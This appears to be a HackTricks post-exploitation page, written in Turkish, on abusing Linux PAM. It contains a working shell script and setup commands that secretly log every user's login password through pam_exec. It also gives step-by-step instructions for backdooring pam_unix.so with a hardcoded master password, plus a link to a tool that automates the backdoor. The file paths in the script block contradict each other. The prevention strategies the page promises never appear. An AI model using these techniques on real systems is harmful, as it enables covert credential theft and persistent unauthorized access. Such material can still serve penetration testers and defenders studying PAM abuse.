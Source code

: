 # Linux Post-Exploitation

{{#include ../../banners/hacktricks-training.md}}

## PAM ile Giriş Parolalarını Dinleme

Her kullanıcının giriş yapmak için kullandığı parolayı kaydetmek üzere bir PAM modülü yapılandıralım. PAM'ın ne olduğunu bilmiyorsanız kontrol edin:

{{#ref}}
pam-pluggable-authentication-modules.md
{{#endref}}

**Daha fazla detay için [orijinal gönderiye](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/) bakın**. Bu sadece bir özet:

**Teknik Genel Bakış:**
Eklentili Kimlik Doğrulama Modülleri (PAM), Unix tabanlı sistemlerde kimlik doğrulama yönetiminde esneklik sunar. Giriş süreçlerini özelleştirerek güvenliği artırabilir, ancak kötüye kullanıldığında riskler de oluşturabilir. Bu özet, PAM kullanarak giriş kimlik bilgilerini yakalama tekniğini ve buna karşı önleme stratejilerini özetlemektedir.

**Kimlik Bilgilerini Yakalama:**

- `toomanysecrets.sh` adlı bir bash betiği, giriş denemelerini kaydetmek için oluşturulmuştur; tarih, kullanıcı adı (`$PAM_USER`), parola (stdin üzerinden) ve uzak ana bilgisayar IP'si (`$PAM_RHOST`) `/var/log/toomanysecrets.log` dosyasına kaydedilir.
- Betik çalıştırılabilir hale getirilir ve `pam_exec.so` modülü kullanılarak PAM yapılandırmasına (`common-auth`) entegre edilir; bu, sessizce çalıştırma ve kimlik doğrulama belirtecini betiğe açma seçenekleri ile yapılır.
- Bu yaklaşım, ele geçirilmiş bir Linux ana bilgisayarının kimlik bilgilerini gizlice kaydetmek için nasıl istismar edilebileceğini göstermektedir.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### PAM'e Arka Kapı Eklemek

**Daha fazla detay için [orijinal gönderiye](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)** bakın. Bu sadece bir özet:

Eklentili Kimlik Doğrulama Modülü (PAM), Linux altında kullanıcı kimlik doğrulaması için kullanılan bir sistemdir. Üç ana kavram üzerinde çalışır: **kullanıcı adı**, **şifre** ve **hizmet**. Her hizmetin yapılandırma dosyaları `/etc/pam.d/` dizininde bulunur; burada paylaşılan kütüphaneler kimlik doğrulamasını yönetir.

**Amaç**: PAM'i, belirli bir şifre ile kimlik doğrulamasına izin verecek şekilde değiştirmek, gerçek kullanıcı şifresini atlayarak. Bu, şifre doğrulaması için neredeyse tüm hizmetler tarafından dahil edilen `common-auth` dosyasında kullanılan `pam_unix.so` paylaşılan kütüphanesine özellikle odaklanmaktadır.

### `pam_unix.so`'yu Değiştirme Adımları:

1. **Kimlik Doğrulama Yönergesini Bulun** `common-auth` dosyasında:
- Bir kullanıcının şifresini kontrol eden satır `pam_unix.so`'yu çağırır.
2. **Kaynak Kodunu Değiştirin**:
- `pam_unix_auth.c` kaynak dosyasında, önceden tanımlanmış bir şifre kullanıldığında erişim izni veren bir koşullu ifade ekleyin, aksi takdirde normal kimlik doğrulama sürecine devam edin.
3. **Derleyin ve Değiştirilmiş** `pam_unix.so` kütüphanesini uygun dizinde değiştirin.
4. **Test**:
- Önceden tanımlanmış şifre ile çeşitli hizmetlere (giriş, ssh, sudo, su, ekran koruyucu) erişim izni verilirken, normal kimlik doğrulama süreçleri etkilenmez.

> [!NOTE]
> Bu süreci [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor) ile otomatikleştirebilirsiniz.

{{#include ../../banners/hacktricks-training.md}}
